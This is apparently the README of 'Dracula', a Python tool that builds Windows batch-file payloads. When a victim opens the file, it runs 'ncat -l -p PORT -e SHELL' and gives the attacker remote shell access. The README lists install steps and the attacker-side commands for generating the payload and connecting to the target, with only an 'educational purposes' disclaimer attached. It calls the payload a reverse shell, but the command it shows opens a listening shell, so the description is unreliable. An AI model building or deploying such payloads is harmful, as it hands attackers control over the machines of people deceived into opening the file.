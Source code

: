 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS FOR ANY ILLEGAL ACTIVITIES**

```
         _____                       _       
        |  __ \                     | |      
        | |  | |_.__ __._  ___ _   _| | __._ 
        | |  | |  __/ _  |/ __| | | | |/ _  |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__._|\___|\__._|_|\__._|

```

Dracula is a reverse shell generator built to generate payloads

<img src="Main/imgs/example.png">

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**
Generate payload:

```
Dracula >> -p <TARGET_PORT> -s <SHELL_TYPE> -o <OUTPUT_FILE_NAME>
```

Command to connect to the target machine:

```
Dracula >> -l -i <TARGET_IP> -p <TARGET_PORT>
```
replace the TARGET_IP with ip addr of client and TARGET_PORT with port used in the attack

**NOTE: the port used in above command must be same as the the one used in payload.**

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```